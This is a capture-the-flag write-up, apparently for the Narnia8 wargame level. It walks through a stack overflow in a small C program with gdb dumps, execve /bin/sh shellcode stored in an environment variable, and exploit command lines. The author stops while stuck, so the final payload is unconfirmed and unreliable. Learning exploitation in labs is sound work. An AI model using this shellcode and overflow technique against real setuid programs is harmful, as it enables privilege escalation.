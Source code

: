 # **we're clooose to the end!!!**

what are we going to do????? MMMMMM
let's read the code first!!

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}

```

By reading we quickly get the main point of that app, it prints out the arg we give, but apparently we cant overflow it?! (no strcpy :((( )
I tried with the max until bash told me to stop!

How am i suppose to break into if "I can't buffer overflow"???
but the program, even if he handle as much parameter as we want, the "writting" process don't tell us the same, after 21char, the program goes totally crazy and print 12 random char (however the size)

Let's understand what's happening at the deep level, let's launch gdb!



## El famoso gdb part!
Alright so let's put our assmebly flavor to intel so it's more readable, alright let's disas func now!!
There are a loooot of things(we're not using a strcpy so there are a lot of different calls)
Which one of them are really interesting??

By observing all those datas I notified one interesent fact, let's analyze this (at this point I was really touching & hoping that I'll touch stg interesent because even OWASP brought me a solution that convince me , my search were too large lol)

So I run my gdb, have a break on the last nop of disas func (+114) and let's have a large look up with a x/200wx $esp
Alright so here are all the my data, I can see my \x41 and my \x42 (i runned it with 20 A)

```bash 
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141		I seems to have a return address
0xffffd694:     0x41414141     -0xffffd889-     0xffffd6a8      0x080484a7		just after so thats cool here
0xffffd6a4:    -0xffffd889-     0x00000000      0xf7e2a286      0x00000002
```

alright but what about if I put more than 20? So i add 25 A this time

```bash
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141		But now my return address
0xffffd694:     0x41414141     -0xffffd841-     0xffffd6a8      0x080484a7		have changed and i dont like that
0xffffd6a4:    -0xffffd884-     0x00000000      0xf7e2a286      0x00000002
```

OKKkkkk so apparently my return address seems to switch if I had more than excepted, soooo, is there a key or something to get my hex back to the normal addresses?
So i added the "original" address at the end bu i notice that, every time i add the last part of it, like \x89, the key after changes to, in my case \xd8 became \x43
And i noticed a thing, there is like a "copy" of this address 2 bytes after who'se supposed to be the same
And when it's right he is the same, and here I'm wrong. when i just add \x89 those two aren't the same,
I came to the conclusion that maybe i should copy the last one to override the first one!

```bash
(gdb)run $(python -c 'print "A"*20 + "\x89"')
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd694:     0x41414141      0xffff4389      0xffffd6a8      0x080484a7
0xffffd6a4:    -0xffffd887-     0x00000000      0xf7e2a286      0x00000002
```

So here i will add this (0xffffd887) to my new command

```bash
(gdb) run $(python -c 'print "A"*20 + "\x87\xd8"')
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd694:     0x41414141      0xffffd887      0xffffd6a8      0x080484a7
0xffffd6a4:    -0xffffd886-     0x00000000      0xf7e2a286      0x00000002
```

Okkk so apparently it changes again so let's change to 86

```bash
(gdb) run $(python -c 'print "A"*20 + "\x86\xd8"')
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd694:     0x41414141     -0xffffd886-     0xffffd6a8      0x080484a7
0xffffd6a4:    -0xffffd886-     0x00000000      0xf7e2a286      0x00000002
```

And when i added one \xff i noticed that the new address reduced by one again, so here is a pattern!!
Let's be quicker a retire one each time you add something after!!

```bash
(gdb) run $(python -c 'print "A"*20 + "\x84\xd8\xff\xff"')
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd694:     0x41414141     -0xffffd884-     0xffffd6a8      0x080484a7
0xffffd6a4:    -0xffffd884-     0x00000000      0xf7e2a286      0x00000002
```

So now i should be able to add what ever i want after this, if so I do have a buffer overflow!!!
I want to add 4 B so let's soustract 4 to my 84 and add BBBB at the end!

```bash
(gdb) run $(python -c 'print "A"*20 + "\x80\xd8\xff\xff" + "BBBB"')
(gdb) x/16wx $esp
0xffffd684:     0x41414141      0x41414141      0x41414141      0x41414141		My BBBB are here so I have a buffer 
0xffffd694:     0x41414141      0xffffd880     -0x42424242-     0x080484a7		overflow!!! time to inject a
0xffffd6a4:     0xffffd880      0x00000000      0xf7e2a286      0x00000002		shellcode !!
```

But i do have a HUGE PROBLEM HERE, i'm limited to 20 char and my shcode is 25 char long....
It's time to use the big brain memory!! 
Remermber Narnia2?? with the EGG env var??
what if i create a env var and just mentione it to get my shcode!!

`export SHCODE=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"')`

And then we can search his hex address and use it instead of our BBBB who's pretty useless
To find his addresses let's make a little C program

```c
  1 #include <stdio.h>                                                   
  2                                                                      
  3 int main(int argc,char* argv[])                                      
  4 {                                                                    
  5     printf("You shcode var is at Hex Addr:  %p \n", getenv("SHCODE"));             
  6 }
```

Some really basic basic stuff, so let's compile it with `gcc env.c -o env`
Now we can execute it and get: 0xffffefd0

PERFECT WE'RE CLOSE TO THE END

Let's just replace our original run func with this env var!!

```bash
/narnia/narnia8 $(python -c 'print "A"*20 + "\x80\xd8\xff\xff" + "\xd0\xef\xff\xff"')
```

But we do have a last problem !!  the return address isn't the same in gdb and in real, so let's get the hex of the real one by printing 20 char and throwing them into xxd

```bash
/narnia/narnia8 $(python -c 'print "A"*20') |xxd
00000000: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000010: 4141 4141 7dd8 ffff a8d6 ffff a784 0408  AAAA}...........		We do want the 7dd8 ffff part but in
00000020: 7dd8 ffff 0a                             }....				big endian and minus 8!!

```

Take you favorite hex calculator and get the result of 0xffffd87d - 8 = 0xffffd875 !!! 

ALRIGHT LAST STEP !!!
replace your "gdb" address by this one and we should be done!!

```bash
/narnia/narnia8 $(python -c 'print "A"*20 + "\x75\xd8\xff\xff" + "\xd0\xef\xff\xff"')
```

Not gonna lie, i'm blocked here, you can't imaagine how frustrating it is, so i'll just wait a bit and come back to it later !

>My thoughts are macaroni and my brain is Spaghetti
											-Rom1


